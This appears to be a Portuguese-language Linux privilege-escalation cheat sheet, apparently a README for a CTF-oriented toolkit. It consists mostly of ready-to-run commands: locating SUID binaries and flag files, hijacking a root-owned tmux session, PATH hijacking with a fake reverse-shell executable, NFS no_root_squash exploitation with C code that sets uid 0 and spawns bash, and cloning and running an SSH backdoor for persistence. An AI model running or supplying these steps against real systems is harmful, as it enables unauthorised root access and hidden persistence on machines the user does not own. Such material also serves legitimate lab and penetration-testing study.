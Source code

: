 https://github.com/Herick-Costa/LinRPE/blob/main/LinRPE.sh


# 🔎 Busca de Arquivos e Permissões

## 📂 Busca de arquivos específicos
```bash
find / -name flag2.txt 2>/dev/null
find / -type f -name "*key.txt" 2>/dev/null
dir C:\ /s /b | findstr /i "root.txt"
```
## 🔐 Arquivos com permissões SUID/SGID
```bash
find / -perm -u=s -type f 2>/dev/null
find / -perm -4000 -type f 2>/dev/null
find / -type f -perm -04000 -ls 2>/dev/null
find / -perm -u=s -type f -ls 2>/dev/null
```

## ⚙️ Executáveis específicos
### 📌 Executáveis do root
```bash
find / -type f -perm -4000 -group $(id -gn) 2>/dev/null
```

### 📌 Executáveis em grupos
```bash
find / -group <nome_do_grupo> -type f -executable 2>/dev/null
```

## 📁 Pastas graváveis
```bash
find / -writable 2>/dev/null
find / -writable 2>/dev/null | cut -d "/" -f 2 | sort -u
find / -writable 2>/dev/null | grep usr | cut -d "/" -f 2,3 | sort -u
```
---

# 🚀 Escalonamento de Privilégios

# 🔍 Capacidades (Capabilities)
```bash
getcap -r / 2>/dev/null
```

---

# ⏳ Cronjobs
```bash
cat /etc/crontab
```

---

# 🛠 Ferramentas e Recursos

## Verificação de processos | PS
```bash
ps -eo pid,ppid,user,cmd
```
### Executando linpeas na sessão 'Processes whose PPID belongs to a different user (not root)
![image](https://github.com/user-attachments/assets/dee4c2cb-0f09-4917-aae8-281ce16d13a3)

### Exemplo onde encontramos o tmux iniciado por user rodando como root (no linpeas mostra o 2385)
```bash
ps -eo pid,ppid,user,cmd | grep 2385 
```
![image](https://github.com/user-attachments/assets/abd1eb08-1c16-4870-b72a-768ba19084d2)

```bash
tmux ls  
```
![image](https://github.com/user-attachments/assets/2bd3fdac-aef5-4c16-b9d2-4c495cba095f)

### Tomando conta:
```bash
tmux attach-session -t 0  
```

## 📌 Exploração de PATH
### 🔍 Examinando o PATH
```bash
echo $PATH
export PATH=/tmp:$PATH
export PATH=/tmp
export PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:$PATH
```

### 🔹 Estratégia
1. Verificar quais pastas no `$PATH` são graváveis.
2. Adicionar um executável falso em `/tmp` com uma shell reversa.

## 🖧 NFS (Network File System)
### 🔍 Configuração crítica
Verifique no `/etc/exports` a opção `no_root_squash`.

### 🛠 Procedimento
```bash
showmount -e <ip>
mkdir /tmp/v
mount -o rw <ip>:/tmp /tmp/v
```

### 📝 Código para exploração
```c
#include <unistd.h>
#include <stdlib.h>

int main() {
    setgid(0);
    setuid(0);
    system("/bin/bash");
    return 0;
}
```

```bash
gcc nfs.c -o nfs -w -static
chmod +s nfs
```

# 🛠 SSH Backdoor
```bash
git clone https://github.com/NinjaJc01/ssh-backdoor
cd ssh-backdoor
ssh-keygen
id_rsa
chmod +x backdoor
./backdoor -a
```
---

# 🛠 Expondo Serviços com Túneis SSH Reversos

## 📌 Listar portas em uso
```bash
ss -tulpn
```

## Cache ARP – Últimos IPs na rede local
```bash
ip neigh show
```
Exemplo de saída:

Copiar
Editar
192.168.0.12 dev eth0 lladdr 00:11:22:33:44:55 REACHABLE
Isso mostra IPs que sua máquina descobriu via rede local recentemente (ainda que não esteja mais se comunicando).

# 🔥 Melhorando Shells

## 🐧Linux
```bash
python3 -c 'import pty;pty.spawn("/bin/bash")'
```
```bash
python -c 'import pty;pty.spawn("/bin/bash")'
```
```bash
export TERM=xterm
^Z
stty raw -echo; fg
reset
```
```bash
script /dev/null
/bin/sh -i
```
